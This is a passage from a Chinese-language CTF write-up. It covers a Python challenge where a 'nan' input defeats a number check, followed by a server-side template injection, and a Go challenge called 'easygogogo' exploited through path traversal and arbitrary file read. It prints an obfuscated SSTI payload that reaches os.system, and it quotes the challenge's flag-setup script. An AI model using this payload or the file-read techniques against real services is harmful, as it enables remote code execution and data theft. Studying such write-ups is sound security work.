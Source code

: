 字符串转数值且小于0大于1000000000.0

阅读python文档https://docs.python.org/3.2/library/stdtypes.html#numeric-types-int-float-complex，我们看到一个这样的浮点数:` float also accepts the strings “nan” and “inf” with an optional prefix “+” or “-” for Not a Number (NaN) and positive or negative infinity. `

且nan<0,nan>1000000000.0都为false,这样他的二分法永远猜不到了

然后修改name进行ssti

```
{{"".__class__.__mro__[2].__subclasses__()[258].__init__.__getattribute__("__globals__")["\\x6f\\x73"].__getattribute__("\\x73ystem")("whoami")}}
```





## easygogogo

题目有三个接口，登入，查看上传文件，上传文件

测试上传文件接口发现，可以直接路径穿越

测试查看上传文件接口发现，可以任意文件读取，但是你得有cookie(通过文件上传生成)

/proc/self/cmdline

```
HOSTNAME=engine-1 HOME=/root OLDPWD=/root TERM=xterm PATH=/go/bin:/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin GOPATH=/go PWD=/go GOLANG_VERSION=1.15.5
```





刚开始去读/etc/passwd发现，啥都没有，但是读/proc/self/cmdline就有东西，然后猜测了下这是root权限启动的

由于重启docker环境并不是让cookie的salt发生改变，所以，如果用之前生成好的cookie(如果是root权限/etc/passwd被覆盖)去获得新docker的/etc/passwd有内容的话就说明是root权限，没有的话就是其他原因

。。。。。

真的是root权限！！！！！

直接读取/root/start.sh

```bash
flagfile=/flag
if [ ${ICQ_FLAG} ];then
    if [ "$flagfile"x = "/flagx" ];then
        echo ${ICQ_FLAG} > ${flagfile}
        chmod 755 ${flagfile}
    else
        #sed -i "s/flag{x*}/${ICQ_FLAG}/" $flagfile
        sed -i -r "s/flag\{.*\}/${ICQ_FLAG}/" $flagfile
        #mysql -uroot -proot nXXXX < $flagfile
    fi
    echo [+] sed flag OK
    unset ICQ_FLAG
else
    echo [!] no ICQ_FLAG
fi

service cron start&&whoami&&cd /go&&go run src/main.go src/functions.go src/model.go src/routes.go
```
